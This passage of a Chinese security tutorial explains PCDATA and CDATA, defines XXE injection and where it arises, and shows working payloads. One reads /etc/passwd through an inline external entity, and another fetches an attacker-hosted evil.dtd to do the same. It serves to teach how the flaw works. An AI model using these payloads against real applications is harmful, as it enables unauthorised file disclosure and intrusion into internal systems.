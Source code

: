 PCDATA 是**会被解析器解析的文本**。这些文本将被解析器检查实体以及标记。

文本中的标签会被当作标记来处理，而实体会被展开。不过，被解析的字符数据不应当包含任何 &、< 或者 > 字符；需要使用 &、< 以及 > 实体来分别替换它们。

#### CDATA简介

CDATA 的意思是**字符数据**（character data）。

CDATA 是**不会被解析器解析的文本**。在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。

### 漏洞简介
 XXE 漏洞全称XML External Entity Injection，即 XML 外部实体注入漏洞，XXE 漏洞发生**在应用程序解析 XML 输入时，没有禁止外部实体的加载，导致可加载恶意外部文件**，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

### 漏洞位置

xxe漏洞触发的点往往是**可以上传xml文件的位置，没有对上传的xml文件进行过滤**，导致可上传恶意 xml文件。

## XXE 攻击方式

### 构建外部实体注入方法

#### 直接通过<u>DTD外部实体</u>声明

<u>在XML文档内直接声明外部实体。</u>

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY b SYSTEM "file:///etc/passwd/">
]>
<c>&b;</c>
```

#### 先引入<u>外部DTD文档</u>，再引入<u>外部实体</u>声明

<u>在XML文档内直接引入外部文档，再在外部文档内引入外部实体。</u>

XML 文件内容（包含DTD外部文档）：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```

evil.dtd 文件内容（包含外部实体）：

```dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

#### **通过XML文档内部声明的<u>DTD外部实体</u>引入<u>外部实体</u>声明**

<u>先在XML文档内引入一个外部实体声明，再在外部实体内引入一个在攻击者服务器上的外部实体。</u>

先写一个外部实体声明，然后引用的是在攻击者服务器上面的外部实体声明。

